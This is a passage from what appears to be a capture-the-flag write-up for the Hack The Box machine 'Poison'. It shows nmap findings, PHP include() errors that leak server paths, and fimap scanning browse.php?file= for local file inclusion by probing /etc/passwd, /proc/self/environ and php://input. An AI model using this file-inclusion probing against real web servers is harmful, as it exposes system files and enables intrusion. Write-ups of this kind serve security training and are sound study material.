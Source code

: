 | /info.php: Possible information file

|_ /phpinfo.php: Possible information file

Nmap done: 1 IP address (1 host up) scanned in 3.42 seconds</pre>
Here is what we can see from the website.

<img class="alignnone wp-image-33 size-full" src="http://offsecnewbie.com/wp-content/uploads/2018/04/poison-port-80.png" alt="poison port 80" width="916" height="331" />I entered testscript.php in the field and i got an error:
<pre> <b>Warning</b>: include(testscript.php): failed to open stream: No such file or directory in <b>/usr/local/www/apache24/data/browse.php</b> on line <b>2</b></pre>
<pre> <b>Warning</b>: include(): Failed opening 'testscript.php' for inclusion (include_path='.:/usr/local/www/apache24/data') in <b>/usr/local/www/apache24/data/browse.php</b> on line <b>2</b></pre>
Now to search for possible LFI
<pre>[root:~/Desktop/poison]# fimap -u "http://10.10.10.84/browse.php?file=" [2/1957]

fimap v.1.00_svn (My life for Aiur) 

:: Automatic LFI/RFI scanner and exploiter 

:: by Iman Karim (fimap.dev@gmail.com)

SingleScan is testing URL: 'http://10.10.10.84/browse.php?file='

[14:53:52] [OUT] Inspecting URL 'http://10.10.10.84/browse.php?file='...

[14:53:52] [INFO] Fiddling around with URL...

[14:53:52] [OUT] [PHP] Possible file inclusion found! -&gt; 'http://10.10.10.84/browse.php?file=z2hu63pz' with Parameter 'file'.

[14:53:52] [OUT] [PHP] Identifying Vulnerability 'http://10.10.10.84/browse.php?file=' with Parameter 'file'...

[14:53:53] [INFO] Scriptpath received: '/usr/local/www/apache24/data'

[14:53:53] [INFO] Operating System is 'Unix-Like'.

[14:53:53] [INFO] Testing file '/etc/passwd'...

[14:53:53] [INFO] Testing file '/proc/self/environ'...

[14:53:53] [INFO] Testing file 'php://input'...

....

....

########################################################

#[1] Possible PHP-File Inclusion #

########################################################

#::REQUEST #

# [URL] http://10.10.10.84/browse.php?file= #

# [HEAD SENT] #
